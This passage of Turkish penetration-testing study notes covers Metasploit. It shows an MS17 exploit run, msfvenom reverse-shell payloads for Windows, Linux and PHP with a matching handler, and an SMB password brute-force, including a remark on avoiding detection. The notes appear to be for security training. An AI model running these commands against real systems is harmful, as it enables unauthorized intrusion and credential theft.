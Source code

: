     - olmadı `search ms17` diyip başka bir modül seçiyoruz
    - `use 10`
    - `options`
    - `show targets`
    - `set RHOSTS 192.168.1.200`
    - `run` BAĞLANDIK ve shell aldık _meterpreter açıldı_
    - `sysinfo` ile makine bilgilerini aldık. 
    - `background` 
    - `sessions -k 1` 1. oturumu öldür, siler.
    - `sessions -K` tüm oturumları kapatır

# msfvenom #
  * zafiyet bulamadık dolaylı olarak sömürmeye çalışacağız.
  * `msfvenom -h payloads`
  * ![resim](https://user-images.githubusercontent.com/63648396/147675129-41495224-a982-461b-b25c-b4b5b78d5b5c.png)
---
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.112 lport=443 -f exe > ck.exe` payload üretimi
    *  Payloadu farklı bir tab'da ürettik
    *  ![resim](https://user-images.githubusercontent.com/63648396/147675546-15811bc6-f981-4cac-b95a-63bff016f32a.png)

  * `use exploit/multi/handler`
    * `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    * `set LHOST 192.168.1.112`
    * `set LPORT 443`
    * `options`
    * farklı bir tab ![resim](https://user-images.githubusercontent.com/63648396/147675458-2ed06845-ee29-4138-a6a6-1af8b1af9b69.png)
    * `exploit -j` java olarak çalışıyor.
---
  - `msfvenom -p /linux/x86/meterpreter/reverse_tcp lhost=192.168.1.112 lport=443 -f elf > ck.elf`
  - `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.113 lport=443 -f raw > ck.php`
  - `chmod +x ck.php` yan tarafta da handler çalışıyor. yukarıda set payload falan dediğimiz exploit -j dediğimiz kısımlar. farklı tab
  - `./ck.php`
  - ![resim](https://user-images.githubusercontent.com/63648396/147675957-892312db-a5b1-4512-a884-74bc9e798413.png)
  - session açıldı ![resim](https://user-images.githubusercontent.com/63648396/147676016-8aa5d9c5-94b4-4673-89e3-30240b402459.png)
    - buradan artık `sessions` yazıp geldiğini gördük. `sessions <number>` ile o oturuma geçtik. shell geldi ve `sysinfo`, `ls` gibi komutları çalıştırıp baktık.
    - eğer ki basit komutlar çalışmıyorsa `stdapi` komutunu deneyebiliriz.

---
# Parola saldırıları -> Brute-force #
  - `cd /usr/share/wordlists/metasploit`
  - `cp adobe_top100_pass.txt ~/passlist` sonra ana dizine gittik
  - `search smb_login`
  - `use 0`
  - `options`
  - `services -p 445` 445'i açık olan tüm sistemleri göster.
  - `services -p 445 -R` bir önceki aramada çıkanları RHOSTS olarak ayarla
  - `set PASS_FILE /home/sacrum/passlist`
  - `nano userlist` bir dosya daha oluşturduk içine kullanıcı isimlerini yazdık.
  - bunların dışında domain vermemiz gerekiyor. kendi domainimizi nasıl buluruz? ![resim](https://user-images.githubusercontent.com/63648396/147677399-79ebc48e-4779-446a-a29d-40100c75ed84.png)
  - `set SMBDOMAIN BTKAKADEMI` yazabiliriz ama 101 parolayı buradan yollarsak bir anomali yaratırız. sorun olduğu belli olur.
  - local makinede denesin istiyoruz. bunun için de SMBDOMAIN kısmının `.` olarak kalması yeterli.